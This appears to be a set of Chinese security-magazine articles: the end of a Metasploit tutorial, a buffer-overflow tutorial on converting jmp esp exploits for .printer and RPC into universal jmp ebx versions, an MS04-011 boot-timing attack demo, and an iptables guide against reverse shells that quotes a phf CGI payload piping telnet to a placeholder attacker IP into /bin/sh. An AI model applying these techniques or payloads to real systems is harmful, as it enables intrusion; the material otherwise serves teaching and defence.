出现了 exploit 说明，点击下面的 select payload 选择我们的 shellcode，如图 14，依然选择 winreverse，来到了参数配置过程，如图 15。参数的设置和上面的命令控制台下方的设置是一样的，设置好后，我们可以点击左下的 vulnerability check 和 launch exploit 分别进行漏洞的确认和攻击。


图 14


图 15

这就是 web 控制台下的使用方法，比起命令控制台确实简单得多了。不过，萝卜青菜各有所爱，我还是偏向喜欢命令行方式。OK！到这里该工具的主要用途我已经详细地给大家介绍过了。其它的命令都很简单，相信聪明的读者肯定自己会搞定的哦！:-)

最后贴出一个在 UNIX 平台下成功利用的图，让大家一睹它的风采吧！如图 16。


图 16

看完了，我称它为“屠龙”应该不为过吧？该工具还在不断更新中，很多人都在为其继续添加 exploit。希望读者们能够善用这个工具，不要拿它做不该做的事。好了该说再见了，有问题的朋友可以去论坛讨论。（文章中所涉及的 Metasploit framework-2.1.exe 已收录于光盘中）

---

## 缓冲区溢出利用方式详解

“写这篇文章，希望能给像我一样的初学缓冲区溢出的菜鸟一些帮助，因为到现在的确还没找到介绍这类的文章。首先，介绍在堆栈溢出中我们的两种利用方式——jmp esp 和 jmp ebx；接下来，说明了其转化的简单办法；最后给了两个实际例子，将 isno 写的 printer 利用代码和 flashsky 写的 RPC 利用代码改写成 jmp ebx 的方式，以实现对 Win2000 sp0-sp4 全版本的统一！”

> ### 小知识
> **push 和 pop**：堆栈是一数据结构，遵循“先进入者，后进先出”的规则，就像我们平时叠盘子一样，先放在下面的最后才能取出来，最后放上去的最先取出来。而在操作系统中，寄存器的动作就是 push 和 pop。Push 把一个数据压到堆栈中去，Pop 取一个堆栈中的数据出来。

> ### 小知识
> **关于 jmp esp 和 jmp ebx**：在溢出中，我们是通过构造过长的数据覆盖系统中原来的东西，然后想办法跳到我们自己已执行的程序中去。这里说的跳转办法最经典的就是 jmp esp 和 jmp ebx 这两种——在某个地方，覆盖系统原来的东西为 jmp esp 或 jmp ebx 的地址，这样就可以跳到我们想执行的程序中去了。当然，我们想执行的程序，也是我们自己写的，通常就称为 ShellCode。

如果 ShellCode 是开个端口，那我们就可以远程连上去；如果 ShellCode 是下载执行，那我们就可以让目标主机在网页上下个文件并执行……只要你能想到的功能，都可以想办法实现。ShellCode 的写法以后有机会再讨论，在这里，还是看看我们关心的地方。

## 一、利用 JMP ESP 的方式

其利用格式是 `NNNNNNRSSSSS`，这里 N=NOP，R=RET（jmp esp 的地址），S=ShellCode。就是把缓冲区一直覆盖成 NOP（空指令，什么都不做），直到原来的 EIP 位置时，我们填入系统中某个核心 dll 中的 jmp esp 的地址，紧跟后面 4 字节我们的 ShellCode。

这种方式为什么会执行到 ShellCode 呢？正常情况下，函数返回时，执行 RET 指令。这等于 POP EIP，会把保存的原来程序的 EIP 的值恢复，从而完成中断的返回。但在这里，我们把保存的 EIP 的值覆盖了，改写成了 jmp esp 的地址。这样，POP EIP 后，EIP = jmp esp 的地址，而堆栈指针 ESP 会往下走，指向 ShellCode 的开始，程序继续执行。此时 EIP 里的内容是 jmp esp，系统执行 jmp esp，就正好跳到我们的 ShellCode 的地方了。

## 二、利用 JMP EBX 的方式

其利用格式是 `NNNNNNIESSSSSS`，这里 N=NOP，I=jmp 04，E=jmp ebx 的地址，S=ShellCode。这里的 I 和 E 的位置是关键，E 是在出错处理的入口位置，而 I 在其前面。

在第一种方式中，我们知道将返回地址覆盖成另一个地址。但如果是个无效的地址呢？那里指向的数据或许不能读，或许不能执行，那会怎么样呢？其实相信大家都遇到过，那就是系统会弹出个对话框报错，我们点确定，就会终止运行。

这是因为作为一个系统级的程序，内部有健全的出错处理机制。简单的说，如果运行时有错误产生，Windows 就会跳到一个专门处理错误的地方，对应不同的错误，执行不同的代码。上面执行的代码就是弹出个对话框报错。

所以这里我们故意把返回的地址覆盖成一个错误的地址。这样出错时，Windows 就会跳到处理错误的入口，而 ebx 指向入口前 4 个字节的地方！那我们把错误入口处覆盖为 jmp ebx 的地址，就会跳到前 4 个字节，也就是我们写入 jmp 04 的地方。往后跳 4 个字节，正好跳过覆盖值，达到我们的 ShellCode！

## 三、JMP ESP 方式转换为 JMP EBX 方式

1. **为什么要考虑把 JMP ESP 方式转换为 JMP EBX 方式呢？**
   其实最大的好处是，JMP ESP 在各个系统、各个补丁版本上是不一样的，这样就会造成不同的系统不通用；而 JMP EBX 有一个 NT/2000/XP/2003 所有版本的通用地址！so cool！ShellCode 可以想办法写成通用的版本，这样只要漏洞本身的入口地址相对位置一样，就可以实现真正的通用啦！可以想像，这是件多么愉快的事情！

   然而在实际中，有许多的 exploit，利用的却是 JMP ESP 方式，比如说 isno 写的 printer 漏洞 exploit 和 flashsky 写的 RPC 远程溢出 exploit，这会导致问题。特别是对 RPC 来说，如果地址错了，就会导致 RPC 服务的崩溃，从而不能变换地址作再一次的攻击；要等到对方重启后，才能再试。这样就算是知道对方是 2000 系统，运气不好，都可能要试 5 次后才能成功（sp0~sp4）。而如果有了通用的版本，就可以保证无论对方是什么系统，都可以一次成功！

2. **如何把 JMP ESP 方式转换为 JMP EBX 方式呢？**
   牛人们用的方法，比较直观和清晰，当然技术含量也就比较高。他们一般是用工具 attach 有问题的服务，反汇编，跟踪进去。找到有问题的点，然后向上找到该服务的异常处理入口，直接分析出异常处理入口位置距离溢出点的长度，从而可以完成 JMP ESP 和 JMP EBX 两种方式的利用。

   这种方法，对我们菜鸟来说，还是比较困难。无论是跟踪，还是计算长度，都需要比较深厚的经验和技术，没有什么技巧可言，都是实力的表现。那就没有稍微简单点的方法可以利用了吗？答案是肯定的！

   笔者经过亲自试验，发现了个比较简单的方法（相对于直接分析服务），把已有的 jmp esp 方式改为 jmp ebx 方式。其思路是先利用 jmp esp 的攻击程序，在 jmp esp 代码后，跟上“\xeb\xfe”，这句即 jmp -2（跳回自身）。实行模拟攻击后，在被攻击机上调出 SoftICE，就会发现停在“\xeb\xfe”这句。这时，我们查看其 fs:0000 的值，它里面存的就是异常处理的入口地址！这时，我们计算那个值离现在的距离，就轻松知道要填充多少达到异常处理入口了。



> **SoftICE**：动态分析中最重要的调试器，分为用户模式和内核模式两种类型。用户模式是指用来调试用户模式的应用程序，它们工作在 Ring 3 级，如 Visual C++ 等编译器自带的调试器。内核模式调试器是指能调试操作系统内核的调试器，它们处于 CPU 和操作系统之间，工作在 Ring 0 级。SoftICE 是 Compuware NuMega 公司的产品，是目前公认的最好的系统级调试工具！其兼容性和稳定性极好，可在源代码级调试各种应用程序和设备驱动程序，也可使用 TCP/IP 连接进行远程调试。

## 四、.printer 和 RPC exploit 的实际改写

1. **printer 漏洞的 exploit 改写**
   .printer 漏洞比较老了，是 Win2000 sp0 和 sp1 的 IIS 服务器所具有的漏洞。改写它主要是想讲明方法。先调出 isno 写的 jmp esp 方式的 exploit（参看附带源代码）。分析后，知道其漏洞利用是 “GET http://AA…AAAAAASSSSSSSSSS/null.printer?x HTTP/1.0”，其中填充 268 个 A 后，达到返回地址处。把它覆盖成 E = jmp esp 的地址，就可以跳到我们的 shellcode 里面执行了。

   如何改写呢？就是用我们的思路！在 E = jmp esp 后面添上几句“\xeb\xfe”，然后攻击我们的模拟机，并在模拟机上打开 SoftICE，哈哈，看到停在了 0172f3e0 处，“0172f3e0 EBFE JMP 0172f3e0”，跟在后面的是我们原来的 ShellCode。这样，我们就进入了内部了。

   快找异常入口地址。D fs:00，看到 fs:0 里面放的是 0x0172f428，这就是这里的异常入口地址。如果我们把返回地址的值写成 AAAA 等非法值，就会产生错误，ebx 会变为 0x0172f428，而系统会跳到 0x0172f42c 执行处理代码。如果我们把 0x0172f42c 覆盖成 jmp ebx，而把 0x0172f428 覆盖成 nop nop jmp 04，就会跳过覆盖地址，执行跟在 jmp ebx 后面的 shellcode！

   试试！异常入口地址是 0x0172f428，而现在 jmp esp 的地址是 0x0172f428，相减为 80。我们就在 isno 的代码基础上，多填充 80 字节，再依次写入 jmp 04、jmp ebx 和 shellcode，还是在 shellcode 前先加上 jmp -2，执行，哈哈，果然还是被中断了！证明我们的 shellcode 被执行啦！而且是 jmp ebx 形式的哦！

2. **RPC 漏洞的 exploit 改写**
   来个更实用的！说到 RPC，无人不知了吧。Flashsky 最先分析和给出了 exploit，冲击波病毒也是利用 flashsky 的基本代码。但他们都是利用 jmp esp 地址，所以造成不通用。在系统上表现就是 XP 系统会停止 RPC 服务，报错一分钟后重启。

   那我们现在改为 jmp ebx 形式，就可以全部通用啦！改的方法和 .printer 完全一样，但要注意，Win2000 sp0/sp1/sp2/sp3/sp4 异常入口点和返回点的距离相差了 8，为此我们只要用 jmp 04 jmp ebx jmp 04 jmp ebx 多覆盖一次就可以了；而对于 XP，相差为 6，这样 2000 和 XP 不能用完全同一个程序。可以写一个专门针对 2000 所有版本的，再写一个专门针对 XP 和 2003 的，也可以达到比较通用。具体的改写参看附带的源程序和改写后的代码，希望大家能有所收获，以后能自己将一些攻击程序改写成通用的版本！

---

## 刺杀的八个回合定律

## 一、引言

本来这期应该写 syn flood 攻击与防御之表现（下）防御篇，由于时间的关系，没有完成那篇难产的文章，另外由于本人忙着赚钱糊口，真的没有时间好好研究那个问题，以至于不敢把那篇见不得人的文章拿出来。幸好这时出了 MS04-011 的远程溢出，算是它救了场。

入侵的艺术是在空隙中求生存，杀敌的方法就是掌握瞬间的时差……

## 二、问题所在

声明两点：其实不用 MS04-011 这个溢出也可以写这篇文章，但实现起来可能就很麻烦了。另外需要声明的一点是，本文并不依赖于 MS04-011 远程溢出，而是与所有溢出都有关。因为当每个新漏洞出现的时候，微软并没有发布最新补丁，这时管理员大多使用“本地安全策略”封闭有漏洞的端口，或是因为有防火墙，所以并没有注意安全性的问题，于是我们这篇文章就有利用的价值了。

长时间以来接触好多人（包括一些高手），他们一直在使用 Windows 自身配置的“本地安全策略”或是使用第三方的防火墙来保护自己的系统，并且奉此为至高无上的安全之道，对此本人颇不以为然。首先作为一个网络安全人员，就要敢于怀疑一切，并且要不相信一切，因为当你完全相信一个事情的时候，可能最后出卖你的就是你所深信不疑的那些东西。

不管安全策略或是防火墙，它们始终只是一个工具，使用它们的是人，我们要有自己的思想，我们是使用它们，而不必依赖它们。

## 三、实战演习

使用的工具有 ping、telnet 及 MS04-011 溢出程序。这期的课题是以我的电脑（IP：192.168.0.5）为目标，以 MS04-011 溢出为方法，演示如何攻破我的本地安全策略。为什么提高本地安全策略呢，因为发现大多数防火墙都是服务级的程序，启动顺序低于安全策略。

首先在我的电脑上卸载 MS04-011 相关的补丁，删除了 KB837001、KB835732、KB828741 这三项补丁（图 1）。然后在本地安全策略中设置封闭 135、139、445 端口及禁止 ping（图 2）。为什么要禁止 ping 呢？因为我们要用它来判断系统启动与我们攻击它的时间。指派完成后，安全策略已经生效，下面就开始我们的入侵计划了。


图 1


图 2

由于一切都是我掌握的，所以我自己重启电脑。但在实际过程中，管理员一定不会那么乖地配合你去重启电脑。那怎么办呢？方法一定是有的，比如用我上期所述的 syn flood 方法，或是当你有一个 ASP shell 的情况下，上传一个超负载的 ASP 程序，使系统资源严重不足，这种情况下管理通常就会重启电脑，只不过看时机能不能掌握。

这时我在另一台机器上不断地使用 ping 命令来探测 IP 192.168.0.5。整个过程非常有意思：在系统启动的过程中，第一段时间我们 ping 不通，因为电脑还没启动；第二段时间 ping 是通的，说明安全策略还没加载；第三段时间又无法 ping 通，说明安全策略已经成功载入（图 3）。

如果我们等到这个时候再动手的话，那就为时已晚了。幸好在这之前我已经使用 MS04-011 这个程序去溢出过无数次了，下面看结果吧。

发现在无数次的溢出失败后，终于有一次屏幕停留在了 `shellcode size 404` 上，马上在已经打开 `telnet 192.168.0.5 1234` 的这个命令行窗口里按一下回车。哈哈，竟然真的躲过了安全策略并且进入了系统（图 4）。我相信很多人可能并没有现成的软件来删改文件或停止服务，但我们可以利用这几秒钟的空隙取消本地安全策略。


图 3


图 4


图 5

如何清除启动项内容，以及如何停止防火墙及杀毒软件等服务并不一而足。图 5 是演示如果动作不够快的话，将无法溢出对方的系统，返回值是 53，与上几次的 51 及 1726 不同。

## 四、防御之我见

写到这里本来已经该去睡觉了，但突然想到，如果不给出解决方法的话，可能不太厚道。不知大家注意到没有，Windows 自带一个 TCP/IP 过滤，每次设置完后系统必须重启才能生效。正因为是这点，说明 TCP/IP 过滤是与网卡驱动一起载入系统的，也就是说它是驱动级的防火墙，启动顺序高于所有基于网络连接的程序。虽然它的设置没有安全策略那么灵活，但它很实用，并且不存在系统启动数秒内的不设防状态。

另外说一下 TCP/IP 过滤与“本地安全策略”的区别，它们分别代表两种不同类型的防火墙。TCP/IP 过滤是首先禁止所有端口，然后打开授权的端口；“本地安全策略”正好相反，是首先信任所有端口，然后封闭指定的端口。我认为将这两种防火墙综合起来利用将是一个比较好的办法。

正确的设置方法应该是这样的：以我的服务器为例，我运行有 FTP、Web、MS-SQL 及流媒体，使用的端口有 21、80、1433。流媒体如果同样使用 80 端口会有冲突，我们将其改为 81。这样的话流媒体就使用 81 端口了，观看网址也就变成了 `mms://ip:81/*.wmv`。在 TCP/IP 过滤中选择“只允许”，添加进去上面的四个端口，重启后会发现流媒体播放节点无法正常运行。使用 fport 后发现流媒体相关的服务中使用的端口比较多，如 1755、6666、7007、7778，其中只需在 TCP/IP 过滤中开放 7778 端口，即可正常运行。我使用 1433 端口是用来做一个游戏服务器的，这个端口对外开放没什么好处，同样的流媒体所开放的 7778 端口也没有意义，这样的话我们在“本地安全策略”中封闭这两个端口。虽然启动过程中多开放的 1433、7778 也存在安全隐患，但也是没有办法的事情。

## 五、写在最后

另外不知道大家有没有发现一个问题，就是很多防火墙在管理员未进入系统桌面之前是不起作用的，如天网，以及本人使用的 Is-one LinkTrust 防火墙。检测的办法就是在系统重启后，先不进入桌面，在另外一台电脑上直接 telnet 防火墙封闭的端口，如果能连上就说明防火墙形同虚设。

有几次见到过一款叫做“中信安全过滤器”的防火墙，黑龙江多数网吧在使用这款防火墙，其实就是一台普通电脑里面安装一些软件。它的防御方法是：安装后系统中将会多出两个服务，且硬件网卡驱动程序多出一项“中信安全过滤”。那两个服务启动顺序很低，但网卡驱动中多出的那项启动顺序高于所有基于网络连接的程序，我想这确实是个好办法。

## 用 iptables 防御反向管道

## 原理

以前反向管道（或称反向连接）是一种用于穿越防火墙的逆向 TCP 连接，被安全教科书列在高级技巧部分。如今，防火墙用得越来越多，而反向管道已不再稀奇，几乎成了现在入侵者的家常便饭。管理员过分信赖防火墙被列在互联网十大安全漏洞之一，就是因为当系统本身存在缺陷时，攻击者发送给合法端口的数据包对防火墙来说和用户的合法访问是一样的，此时防火墙对这类东西就是“瞎”的。虽然 iptables 有字符串匹配模式，也许有那么一种可能匹配 shellcode 的特征，但即使这样，防火墙对数据包检查后的转发效率肯定是不行的。

在上述情况下，攻击者很容易利用一个反向连接得到 shell，从而完成攻击。既然反向连接的危害足够大，那么我们就来防御它。

## 对策

这里我们主要讨论在 Linux 系统上的实现，因为 Linux 上的防火墙 iptables 足够强大，易于操作，跟大多数软件防火墙比，有过之而无不及！

> 限制反向管道要以限制正向访问控制为基础，不然根本没有意义。

既然能正向溢出，那又何必画蛇添足搞个反向连接呢？下面给出一个简单的例子，逐步说明如何加固我们的系统。

假设我们的 Linux 以 Apache 运行 Web 服务器，只需对外开放 80 端口。另外，22 (sshd) 供 admin 远程管理，实际的系统可能比这个复杂或提供更多的服务。但 Linux + Apache 的构架是全球 Web 服务器中最常见的，所以我们以它为例子。

首先限制正向连接，对于 iptables 来说就是限制 INPUT 链。如果对此不熟悉，请先查阅 iptables 的相关资料。对于 INPUT 链的进入数据包我们只保留 TCP 22、80，其余端口全部关闭，这是服务器防火墙的一般策略。如下：

```bash
[root@ayazero foo]# iptables -A INPUT -i eth0 -p tcp --dport 22 -j ACCEPT
[root@ayazero foo]# iptables -A INPUT -i eth0 -p tcp --dport 80 -j ACCEPT
[root@ayazero foo]# iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
[root@ayazero foo]# iptables -A INPUT -j DROP
```

## 实验

虽然教科书上的例子很多，但还是搬出来，这里我们只是为了说明：

```php
#nc -l -n -v -p 80
#nc -l -n -v -p 25
/cgi-bin/phf?Qalias=x%0a/bin/
telnet%20evil_evilhackers_IP%20
80%20|%20./bin/sh%20|%20/bin/
telnet%20evil_hackers_IP%2025
```

其中，"%20" 会被解析成空格，也可用 "+" 代替。在 Unicode 流行的年代，通过 IIS 执行命令，在一个 TCP/IP 筛选只保留 80 端口的系统上任意运行。后来 snake 的 ICQ 溢出工具也提供了高度增强的反向连接功能，还有反弹木马。攻击成功后（包括现在的脚本），会试图用正向或反向连接取得系统的 Shell，以达到入侵的目的。

另一个鲜明例子是 exploit 正向溢出被防火墙阻断，从而无法获得 shell。此时可以用反向管道从内部主动传回给入侵者一个 shell，这样就 GAME OVER 了！

“反向管道 + 端口重定向”这种结合简直就是无敌，就像 AWP 一样，对被侵害的系统几乎是一枪致命！有一次在电信内网工作人员自己用的 MSSQL 2000 Server 上，我正准备修改数据库函数，突然跳出一个防火墙对话框，询问是否允许这次操作。的确，在防御反向管道方面做得不错，不过很明显这是个人防火墙，个人防火墙是种复杂功能的集合体，不仅有端口过滤，还有对抗某类特征攻击数据包，并且现在的个人防火墙越来越多地融入了入侵检测的成分，而服务器上的防火墙更像一种端口过滤和访问控制列表，两者是不一样的。服务器系统上不能随便使用个人防火墙，所以这个问题还是没有解决。

对付反向管道即限制 iptables 的 OUTPUT 链：

```bash
[root@ayazero foo]# iptables -A OUTPUT -o eth0 -p tcp --syn -j DROP
```

